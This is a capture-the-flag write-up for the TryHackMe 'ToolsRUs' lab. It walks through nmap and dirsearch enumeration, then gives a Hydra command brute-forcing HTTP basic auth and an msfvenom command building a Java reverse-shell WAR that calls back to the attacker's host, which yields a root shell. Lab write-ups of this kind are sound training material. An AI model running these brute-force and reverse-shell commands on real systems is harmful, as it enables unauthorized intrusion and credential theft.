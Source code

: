 
[TryHackMe Link](https://tryhackme.com/room/toolsrus){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this section, I will discuss about gaining access to a system by exploiting vulnerabilities in various services. The services include Apache Tomcat, Apache Coyote JSP Engine, Apache Jserv, and an HTTP server on port 80.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |
| <p id="p3" style="font-size:14px;  color: purple"></p>     | <p id="s3" style="font-size:14px; color: purple"></p>  |<p id="d3" style="font-size:14px; color: purple"></p> |
| <p id="p4" style="font-size:14px;  color: purple"></p>     | <p id="s4" style="font-size:14px; color: purple"></p>  |<p id="d4" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```sh linenums="1" hl_lines="6 11 14 18"
    # Nmap 7.93 scan initiated Wed Feb 22 10:11:28 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.4.144
    Nmap scan report for 10.10.4.144
    Host is up (0.15s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 460e76fbb6a2f7f78536656f8809f7e8 (RSA)
    |   256 a1bc5d3478f4e8d4091805ef9d9072c5 (ECDSA)
    |_  256 0757145539dfc56296f9fc4883cf127e (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    |_http-server-header: Apache-Coyote/1.1
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/22%OT=22%CT=1%CU=33697%PV=Y%DS=5%DC=I%G=Y%TM=63F630B
    OS:F%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Feb 22 10:11:59 2023 -- 1 IP address (1 host up) scanned in 30.78 seconds

  ```

## <b>Enumerating Apache Coyote JSP Engine</b>

At first, my plan was to exploit the Apache JSP Engine by uploading a malicious WAR file to obtain a shell. Since I was familiar with this method, I felt confident. However, I was unable to pass the authorization process.

In my attempts to gain access to the Tomcat Manager, I initially turned to a Python script to brute force default logins for Apache Tomcat. Unfortunately, this approach also failed. 

## <b>Enumerating the HTTP Server</b>

I then shifted my focus to the HTTP server running on port 80, where I discovered a simple page that hinted at the development of the site. 

<img id="image1" />

Utilizing a dirsearch Python script, I was able to locate potentially hidden pages and directories that could provide further clues and entry points.

```sh linenums="1" hl_lines="21-23"
    Target: http://10.10.4.144/

    [10:13:58] Starting: 
    [10:14:03] 403 -  297B  - /.ht_wsr.txt                                     
    [10:14:03] 403 -  300B  - /.htaccess.bak1
    [10:14:03] 403 -  302B  - /.htaccess.sample
    [10:14:03] 403 -  300B  - /.htaccess.orig
    [10:14:03] 403 -  300B  - /.htaccess.save
    [10:14:03] 403 -  301B  - /.htaccess_extra
    [10:14:03] 403 -  300B  - /.htaccess_orig
    [10:14:03] 403 -  298B  - /.htaccess_sc
    [10:14:03] 403 -  298B  - /.htaccessBAK
    [10:14:03] 403 -  298B  - /.htaccessOLD
    [10:14:03] 403 -  290B  - /.htm
    [10:14:03] 403 -  299B  - /.htaccessOLD2                                   
    [10:14:03] 403 -  291B  - /.html
    [10:14:03] 403 -  300B  - /.htpasswd_test
    [10:14:03] 403 -  296B  - /.htpasswds
    [10:14:03] 403 -  297B  - /.httr-oauth
    [10:14:36] 200 -  168B  - /index.html                                       
    [10:14:47] 401 -  458B  - /protected/data/                                  
    [10:14:47] 401 -  458B  - /protected/runtime/
    [10:14:47] 301 -  298B -  /guidelines
    [10:14:49] 403 -  299B  - /server-status                                    
    [10:14:49] 403 -  300B  - /server-status/
```

## <b>Exploiting '/guidelines' page</b>

After running the dirsearch script, I was able to identify two promising directories that could lead to further leads, namely `protected` and `guidelines`. The former sounded highly secured, but to my surprise, it was not. While I was filling out the question, I decided to check out the `/guidelines` page, and found a username called `bob`.

<img id="image2" />

Leveraging this discovery, I was able to brute force Bob's password using Hydra, which gave me access to the `protected` directory. It was a simple HTTP Basic Authorization Request which can be brute forced with the following command:

!!! tip "Hydra Command"
    <p id="desc" style="font-size:15px">hydra $IP -l bob -P ~/rockyou.txt http-get /protected -V</p>
    


<img id="image3" />

I successfully obtained Bob's login credentials, and used them to access the page that I had discovered earlier.

## <b>Exploiting Apache Tomcat with Harvested Credentials</b>

When I logged in, I discovered that the Authorization mechanism used for the Tomcat Service and the `/protected` directory were the same. 

<img id="image4" />

This allowed me to reuse the credentials that I had previously harvested. With access granted, I uploaded a Java WAR file to the manager and made a reverse shell from it.

!!! Bug "Msfvenom Payload"
    <span>msfvenom -p java/shell_reverse_tcp lhost=10.17.3.217 lport=5432 -f war -o shell.war</span>

<img id="image5" />

Also, I made a listener, before I accessed {++http://10.10.4.144:1234/shell/++} giving me the shell.


## <b>Gaining Root access</b>

Surprisingly, I was granted `root` access, rather than the expected `www-data` shell. Easy-Peasy

```sh
root@ip-10-10-4-144:/# cat root/*
cat root/*
{--REDACTED--}
cat: root/snap: Is a directory
```

!!! success ""
    <span>Peace-out!</span>

<script>

// JSON object
const data = {
    "desc": "Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit",
    "ip":  "10.10.4.144",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu;80/tcp,http,Apache httpd 2.4.18;1234/tcp,http,Apache Tomcat/Coyote JSP engine 1.1;8009/tcp,ajp13,Apache Jserv (Protocol v1.3)",
    "difficulty":"easy",
    "id": "3"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>